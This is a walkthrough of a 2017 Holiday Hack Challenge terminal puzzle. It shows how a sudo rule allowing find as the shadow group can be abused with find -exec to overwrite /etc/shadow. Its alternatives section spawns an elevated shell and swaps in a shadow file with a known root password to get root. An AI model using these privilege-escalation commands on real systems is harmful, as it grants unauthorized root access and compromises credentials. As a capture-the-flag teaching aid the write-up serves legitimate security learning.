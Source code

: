 * Question
  :PROPERTIES:
  :CUSTOM_ID: we_are_question
  :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

* How to find the terminal
  :PROPERTIES:
  :CUSTOM_ID: we_are_how-to-find-the-terminal
  :END:

From this game: https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5

Direct link: https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

#+BEGIN_CENTER
#+HTML: <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/kVKmTwQ7nNg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
#+END_CENTER

#+CAPTION: The terminal is just behind the starting ramp on the main platform.
[[./images/terminal-location-we_are.png]]

* Background Information
  :PROPERTIES:
  :CUSTOM_ID: we_are_background-information
  :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system {{{abbr(Message of the Day, MOTD)}}} gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

* Goal
  :PROPERTIES:
  :CUSTOM_ID: we_are_goal
  :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC
elf@784e43534178:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

* Hints
  :PROPERTIES:
  :CUSTOM_ID: we_are_approach
  :END:

Shinny Upatree on Twitter has a few hints:

#+HTML: <blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">I think I have some pseudo (sp?) permissions on this Unix server, but I don&#39;t know what that means. <a href="https://twitter.com/GreenesterElf?ref_src=twsrc%5Etfw">@GreenesterElf</a> said this was a &quot;learning opportunity&quot; and won&#39;t give me the answer :&#39;(</p>&mdash; Shinny Upatree (@ClimbALLdaTrees) <a href="https://twitter.com/ClimbALLdaTrees/status/938578359860174848?ref_src=twsrc%5Etfw">December 7, 2017</a></blockquote>

* Approach
  :PROPERTIES:
  :CUSTOM_ID: we_are_approach
  :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC
elf@784e43534178:~$ sudo --list
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC
elf@784e43534178:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -l -l
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC
elf@784e43534178:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC
elf@784e43534178:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

* Solution
  :PROPERTIES:
  :CUSTOM_ID: we_are_solution
  :END:

A one-liner is:

#+BEGIN_SRC
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

* Alternatives
  :PROPERTIES:
  :CUSTOM_ID: we_are_alternatives
  :END:

Instead of using =find= to directly copy the file, we can just use it to start an elevated shell:

#+BEGIN_SRC
elf@784e43534178:~$ id
uid=1000(elf) gid=1000(elf) groups=1000(elf)
elf@784e43534178:~$ sudo -g shadow find -exec bash \;
...
elf@784e43534178:~$ id
uid=1000(elf) gid=42(shadow) groups=42(shadow),1000(elf)
#+END_SRC

This shows how we can use =sudo= and =find= as a general privilege escalation mechanism.

Another way of doing this is by putting in a modified shadow file instead, which will have a password that we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC
elf@784e43534178:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC
elf@784e43534178:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@784e43534178:~$ su
Password: 
root@784e43534178:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

* Common Pitfalls
  :PROPERTIES:
  :CUSTOM_ID: we_are_common-pitfalls
  :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.


